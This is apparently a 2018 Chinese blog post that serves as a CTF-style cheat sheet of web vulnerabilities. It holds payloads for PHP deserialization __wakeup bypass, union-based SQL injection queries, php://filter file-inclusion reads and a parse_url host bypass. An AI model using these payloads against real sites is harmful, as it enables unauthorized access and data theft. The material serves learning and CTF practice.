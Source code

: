 ```yaml
---
title: Web的漏洞整理
date: 2018-02-19 15:35:52
tags: [Web,漏洞]
categories:
thumbnail:
---
```


# Web相关的漏洞简单整理
想起多少写多少。。。
1. ### PHP数组绕过

    碰到有检测参数是否为数组，可以构建`file[key]=value&file[key2]=value2`这样的报文构建payload对象来绕过

2. ### PHP序列化

    生效范围：PHP5 < 5.6.25 PHP7 < 7.0.10  
    `O:4:"Demo":1:{s:4:"data";s:15:"malicious value";}`反序列化的时候如果将第一个4改为较大的数即可绕过`__wakeup()`

3. ### PHP序列化+session

    注意以下几个函数
    ```php
    ini_set('session.serialize_handler', 'php');
    ini_set('session.serialize_handler', 'php_binary');
    ini_set('session.serialize_handler', 'php_serialize');
    ```
    在不同页面靠session传值，如果以上函数出现且设置的值不同，则可能存在该漏洞，可使用`session_encode()`函数查看不同序列化引擎的不同结果

4. ### XXE

    注意是否有类似json的交互，content-type是否可改动

5. ### 注入

    反斜杠使单引号失效的解决方法：在单引号前加%df

    ```mysql
    order by #测列数
    and 1=2 union select 1,2,3 # 测可显示列
    select table_name from infomation_schema.tables where table_schema=database() #获取表名
    select group_concat(table_name) from infomation_schema.tables where table_schema=database() #获取所有表名
    select group_concat(column_name) from infomation_schema.columns where table_name=char() #获取所有字段名
    ```

    ​

6. ### 源码泄漏

    一般网站都会有的防爬文件robots.txt

    Apache的.htaccess文件

    文件后缀.filename.swp .bak之类

    Git遗留

7. ### PHP文件包含

    如果猜测代码有include函数存在，且可以`include(any.php)`，则可以绕过php的解析读取到源码，最通常的一种做法就是使用php://filter
    例如：

    ```php
    php://filter/read=convert.base64-encode/resource=exp.php
    ```

    或者使用
    1. `data://`
    2. `php://input`
    3. 00截断
    4. ./构造长目录截断，win下>256字节，linux下>4096字节，<font color=darkred>要求php版本小于5.2.8</font>

    详细参见[这里](https://zhuanlan.zhihu.com/p/26308699)

8. ### PHP parse_url()

    <font color=red>以下环境未复现成功</font>

    ```php
    <?php
    ini_set("display_errors",0);
    $uri = $_SERVER['REQUEST_URI'];
    var_dump('uri='.$uri);
    if(stripos($uri,".")){// .作为开头可破
        die("Unkonw URI");
    }
    var_dump('parse_url($uri,PHP_URL_HOST)='.parse_url($uri,PHP_URL_HOST));
    if(!parse_url($uri,PHP_URL_HOST)){
        $uri = "http://".$_SERVER['REMOTE_ADDR'].$_SERVER['REQUEST_URI'];
    }
    $host = parse_url($uri,PHP_URL_HOST);
    var_dump('host='.$host);
    if($host === "c7f.zhuque.com"){
        echo("AuthFlag"."flag{you got flag}");
    }
    ```

    绕过payload：`.@c7f.zhuque.com/..//`